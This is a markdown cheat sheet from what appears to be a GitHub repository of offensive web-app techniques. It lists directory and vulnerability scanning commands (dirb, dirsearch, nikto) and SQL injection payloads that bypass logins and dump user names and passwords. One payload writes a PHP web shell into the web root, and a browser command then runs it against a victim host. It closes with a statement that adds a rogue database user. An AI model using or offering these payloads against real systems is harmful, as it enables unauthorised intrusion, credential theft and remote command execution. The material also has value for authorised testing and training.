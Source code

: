 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/web-apps.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/web-apps.md#bottom-of-page">Bottom of Page</a>
</p>

# Cheatsheets - Web Apps
## Table of Contents
* [Enumerate](#enumerate)
* [Exploit](#exploit)
* [Explore](#explore)
* [Effect](#effect)

## Enumerate
```bash
dirb $TARGET -r -z10 # recursive; wait 10 milliseconds between delays
```
```bash
sudo apt install dirsearch
dirsearch -u $TARGET --o scans/$TARGET-dirsearch
```
```bash
nikto -h $TARGET -maxtime=30s -Format txt -o scans/$TARGET-nikto-30seconds
nikto -h $TARGET -T 2 # scan for misconfiguration vulnerabilities
nikto -h $TARGET -T 9 # scan for SQL injection vulnerabilities
```

Finding SQL Injection Vulnerabilities
```bash
` # single-quote
# the resulting error may indicate the underlying web server software, database software, and server OS 
```

## Exploit
SQL Comments
```
# MySQL, MariaDB
-- Oracle
/* Oracle
*/ Oracle
```

SQL Injection Attacks
```
# bypass auth (put SQLi in the username field; username might be required so supply that at least)
victor' or 1=1; -- 

# bypass auth (put SQLi in the username field; the LIMIT keyword might be necessary for some databases)
victor' or 1=1 LIMIT=1; -- 

' ORDER BY 1 # sort results based on the values of the first column

' UNION ALL SELECT 1,2,3 # return all rows 
' UNION ALL SELECT 1,2 @@version # return the database version
' UNION ALL SELECT 1,2 user() # return the acct running the database

# return all table names
' UNION ALL SELECT 1,2 table_name FROM information_schema.tables 

# return all column names
' UNION ALL SELECT 1,2 column_name FROM information_schema.columns WHERE table_name = 'usertbl' 

# return records from users table; put users in column 2, password in column 3 of output
' UNION ALL SELECT 1, username, password FROM usertbl 

# invoke PHP and echo PHP code into a file
' UNION ALL SELECT 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/var/www/html/webshell.php'
firefox http://victim.edu/webshell.php?cmd=whoami # navigate to and use the above LFI
```

## Explore
SQL Database Queries
```sql
SELECT * FROM targetdb.usertbl; # database.table
USE targetdb;
SELECT * FROM usertbl;
```

## Effect
Add a new user to a SQL database
```sql
INSERT INTO targetdb.usertbl(username, password) VALUES ('victor','please');
```

<p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/web-apps.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/web-apps.md#bottom-of-page">Bottom of Page</a>
</p>

## Bottom of Page
